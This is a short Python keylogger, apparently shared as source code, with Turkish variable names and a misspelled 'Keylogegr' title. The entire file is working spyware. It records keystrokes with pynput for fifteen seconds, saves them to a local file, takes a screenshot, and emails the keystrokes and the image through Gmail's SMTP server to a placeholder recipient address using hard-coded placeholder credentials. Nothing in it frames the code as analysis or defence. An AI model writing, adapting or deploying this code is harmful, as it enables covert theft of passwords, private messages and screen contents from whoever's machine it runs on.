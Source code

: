 # Keylogegr
import pynput
import time
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage
import pyautogui

toplama = ""
def emir(harfler):
    global toplama
    if isinstance(harfler, pynput.keyboard.Key): 
        if harfler == pynput.keyboard.Key.space:
            toplama+=" "
        elif harfler == pynput.keyboard.Key.backspace:
            sayi=len(toplama)
            sayi-=1
            deger=0
            sonuc=""
            while sayi>deger:
                sonuc+=toplama[deger]
                deger+=1
            toplama=sonuc    
        else: 
            toplama += str(harfler) 
    else:
        toplama+=(harfler.char) 

dinleme=pynput.keyboard.Listener(on_press=emir)
with dinleme: 
    time.sleep(15)
    dinleme.stop()

dosya = open("klavye.txt","w",encoding="utf-8")
dosya.write(toplama)
dosya.close()
smtp_server = 'smtp.gmail.com'
port = 587
sender_email = 'Gondericiposta@gmail.com'
password = 'sifre'
recipient_email = 'Alıcıposta@gmail.com'

message = MIMEMultipart()
message['Subject'] = 'Test E-Postası'
message['From'] = sender_email
message['To'] = recipient_email

text = MIMEText(toplama)
message.attach(text)

image = pyautogui.screenshot()
image.save("screenshot.png")

with open("screenshot.png", "rb") as image_file:
    image = MIMEImage(image_file.read())
    message.attach(image)

try:
    with smtplib.SMTP (smtp_server, port) as server:
        server.starttls ()
        server.login (sender_email, password)
        server.sendmail (sender_email, recipient_email, message.as_string ())
    print ("Mail başarılı bir şekilde gönderildi.")
except smtplib.SMTPAuthenticationError:
    print('Hata: Kimlik doğrulama başarısız oldu.')
